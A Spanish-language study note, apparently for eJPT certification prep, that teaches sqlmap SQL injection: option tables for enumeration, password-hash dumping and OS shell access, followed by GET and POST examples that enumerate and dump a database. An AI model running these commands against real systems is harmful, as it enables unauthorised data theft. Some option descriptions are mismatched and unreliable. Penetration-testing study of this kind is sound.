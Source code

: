 
### **Básico comandos:**  

| **Opciones**      | **Descripción**                                                       |
| ----------------- | --------------------------------------------------------------------- |
| -u URL, --url=URL | URL objetivo (por ejemplo, "http://www.site.com/vuln.php?id=1")       |
| --data=DATA       | Cadena de datos que se enviará a través de POST (por ejemplo, "id=1") |
| --random-agent    | Usar seleccionado al azar HTTP Valor de encabezado de usuario-agente  |
| -p TESTPARAMETER  | Parámetro comprobable(s)                                              |
| --level=LEVEL     | Nivel de pruebas a realizar (1-5, por defecto 1)                      |
| --risk=RISK       | Riesgo de pruebas a realizar (1-3, por defecto 1)                     |

### **Enumeración comandos:**

- Estas opciones se pueden usar para enumerar la información, la estructura y los datos del sistema de administración de bases de datos de back-end contenidos en las tablas.


| Opciones        | Descripción                                                |
| --------------- | ---------------------------------------------------------- |
| -a, --all       | Recuperar todo                                             |
| -b, - banner    | Recuperar banner DBMS                                      |
| --current-user  | Recuperar la base de datos actual de DBMS                  |
| --current-db    | Enumerar los hashes de contraseñas de los usuarios de DBMS |
| --passwords     | Enumerar los hashes de contraseñas de los usuarios de DBMS |
| --dbs           | Enumerar bases de datos DBMS                               |
| --tables        | Enumerar tablas de bases de datos DBMS                     |
| --columns       | Enumerar columnas de tabla de base de datos DBMS           |
| --schema        | Enumerar el esquema DBMS                                   |
| --dump          | Volcar entradas de tabla de base de datos DBMS             |
| --dump-all      | Volcar todas las entradas de tablas de bases de datos DBMS |
| --is-dba        | Detectar si el usuario actual de DBMS es DBA               |
| -D "DB NAME"    | Base de datos DBMS para enumerar                           |
| -T "TABLE NAME" | Tabla de base de datos DBMS(s) para enumerar               |
| -C COL          | Columna(s) de tabla de base de datos DBMS para enumerar    |

### **Acceso al sistema operativo comandos**

- Estas opciones se pueden usar para acceder al sistema de administración de bases de datos de back-end en el sistema operativo de destino.

| Opciones       | Descripción                                                         |
| -------------- | ------------------------------------------------------------------- |
| --os-shell     | Solicitud de un shell de sistema operativo interactivo              |
| --os-pwn       | Rápido para un shell OOB, Meterpreter o VNC                         |
| --os-cmd=OSCMD | Ejecute un comando del sistema operativo                            |
| --priv-esc     | Escalamiento de privilegios de usuario del proceso de base de datos |
| --os-smbrelay  | Solicitud de un clic para un shell OOB, Meterpreter o VNC           |
Tenga en cuenta que las tablas que se muestran arriba no son todos los interruptores posibles para usar con sqlmap. Para obtener una lista más extensa de opciones, ejecute `sqlmap -hh` para mostrar el mensaje de ayuda avanzado.
Ahora que hemos visto algunas de las opciones que podemos usar con sqlmap, vamos a saltar a los ejemplos utilizando solicitudes basadas en el Método GET y POST.

  
### **Simple HTTP Prueba GET Basada**

```
sqlmap -u https://testsite.com/page.php?id=7 --dbs
```

Aquí hemos usado dos banderas: -u para indicar la URL vulnerable y --dbs para enumerar la base de datos.

### **Simple HTTP Prueba basada en POST**

- Primero, necesitamos identificar la solicitud POST vulnerable y guardarla. Para guardar la solicitud, Haga clic derecho en la solicitud, seleccione 'Copiar a archivo' y guárdela en un directorio. También puede copiar toda la solicitud y guardarla en un archivo de texto también.

![[Apuntes/Imagenes/Pasted image 20240325191912.png]]
Notará en la solicitud anterior, tenemos un parámetro POST 'sangre_grupo' que podría ser un parámetro vulnerable.

![[Apuntes/Imagenes/Pasted image 20240325191950.png]]

- Ahora que weizve identificó un parámetro potencialmente vulnerable, vamos a saltar al sqlmap y usar el siguiente comando:

```
sqlmap -r req.txt -p blood_group --dbs

sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
```

Aquí hemos usado dos banderas: -r para leer el archivo, -p para suministrar el parámetro vulnerable, y --dbs para enumerar la base de datos.

![[Apuntes/Imagenes/Pasted image 20240325192554.png]]
Ahora que tenemos las bases de datos, extraigamos tablas de la base de datos **sangre**.

### **Usando el Método basado en GET**

```
sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables

sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables
```

  
### **Uso del método basado en POST**

```
sqlmap -r req.txt -p blood_group -D blood --tables

sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables
```

Una vez que ejecutamos estos comandos, debemos obtener las tablas.

![[Apuntes/Imagenes/Pasted image 20240325193159.png]]Una vez que tengamos tablas disponibles, ahora vamos a reunir las columnas de la tabla sangre_db.

### **Usando el Método basado en GET**

```
sqlmap -u https://testsite.com/page.php?id=7 -D blood -T blood_db --columns

sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns
```

### **Uso del método basado en POST**

```
sqlmap -r req.txt -D blood -T blood_db --columns

sqlmap -r req.txt -D <database_name> -T <table_name> --columns
```

![[Apuntes/Imagenes/Pasted image 20240325193330.png]]
O simplemente podemos volcar todas las bases de datos y tablas disponibles utilizando los siguientes comandos.

### **Usando el Método basado en GET**

```
sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all
  
sqlmap -u https://testsite.com/page.php?id=7 -D blood --dump-all
```
  
### **Uso del método basado en POST**

```
sqlmap -r req.txt -D <database_name> --dump-all
  
sqlmap -r req.txt-p  -D <database_name> --dump-all
```


enlace
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]